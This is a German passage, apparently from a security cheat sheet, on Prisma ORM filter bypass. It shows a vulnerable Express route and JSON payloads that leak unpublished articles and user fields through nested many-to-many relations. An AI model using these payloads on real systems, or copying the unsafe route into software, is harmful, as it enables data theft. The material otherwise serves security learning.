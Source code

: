 * **Umgehung der Filterung bei vielen-zu-vielen relationalen Filtern:**&#x20;
```javascript
app.post('/articles', async (req, res) => {
try {
const query = req.body.query;
query.published = true;
const posts = await prisma.article.findMany({ where: query })
res.json(posts);
} catch (error) {
res.json([]);
}
});
```
Es ist möglich, nicht veröffentlichte Artikel durch Rückverknüpfung zu den vielen-zu-vielen-Beziehungen zwischen `Category` -\[\*..\*]-> `Article` zu leaken:
```json
{
"query": {
"categories": {
"some": {
"articles": {
"some": {
"published": false,
"{articleFieldToLeak}": {
"startsWith": "{testStartsWith}"
}
}
}
}
}
}
}
```
Es ist auch möglich, alle Benutzer durch den Missbrauch einiger Loopback-viele-zu-viele-Beziehungen zu leaken:
```json
{
"query": {
"createdBy": {
"departments": {
"some": {
"employees": {
"some": {
"departments": {
"some": {
"employees": {
"some": {
"departments": {
"some": {
"employees": {
"some": {
"{fieldToLeak}": {
"startsWith": "{testStartsWith}"
}
}
}
}
}
}
}
}
}
}
}
}
```